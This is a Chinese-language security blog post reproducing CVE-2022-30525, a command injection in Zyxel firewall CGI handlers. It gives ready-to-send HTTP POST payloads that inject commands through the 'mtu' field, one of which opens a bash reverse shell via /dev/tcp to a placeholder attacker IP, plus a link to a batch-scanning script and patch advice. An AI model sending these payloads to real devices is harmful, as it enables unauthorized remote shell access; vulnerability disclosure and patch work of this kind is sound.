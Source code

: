 # Zyxel 防火墙未经身份验证的远程命令注入(CVE-2022-30525)




## 漏洞说明

ZyXEL USG FLEX 等都是中国台湾合勤（ZyXEL）公司的防火墙产品。2022年5月12日， Zyxel发布安全公告，修复了一个存在于部分防火墙版本的CGI程序中的命令注入漏洞。漏洞编号：CVE-2022-30525，漏洞威胁等级：严重，漏洞评分：9.8。

该漏洞存在于某些Zyxel防火墙版本的 CGI 程序中，允许在未经身份验证的情况下在受影响设备上以nobody用户身份执行任意命令。



## 影响范围

ATP系列固件：5.10-5.21 Patch 1

VPN系列固件：4.60-5.21 Patch 1

USG FLEX 100(W)、200、500、700：5.00-5.21 Patch 1

USG FLEX 50(W)/USG20(W)-VPN：5.10-5.21 Patch 1





## 漏洞复现

出现漏洞的文件为 `lib_wan_settings.py` 下的 `setWanPortSt` 方法，从源码里可以看到拼接的参数为 `mtu` , 随后直接 `os.system` 命令执行

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h275pdfbkaj20u00w2jvg.jpg)





**手工验证：**

POC：

其中`mtu`参数后面为要执行的命令

```http
POST /ztp/cgi-bin/handler HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 165

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; ping {DNSlog};","data":"hi"}
```

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274aj5tbsj225c0pmwj1.jpg)



反弹Shell:

```http
POST /ztp/cgi-bin/handler HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 165

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```





**批量验证：**

脚本地址：https://github.com/shuai06/CVE-2022-30525

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274kbmig8j21yc0dyjti.jpg)

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274q3zr04j21v40i20vf.jpg)



## 修复建议

厂商已发布补丁修复漏洞，用户请尽快更新至安全版本：ZLD V5.30。

下载链接如下：https://www.zyxel.com/support/download_landing.shtml







## 参考链接

https://mp.weixin.qq.com/s/du56JX1ft03Z-YtM2C2E8A









---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/zyxel-%E9%98%B2%E7%81%AB%E5%A2%99%E6%9C%AA%E7%BB%8F%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%9A%84%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5-cve-2022-30525/  

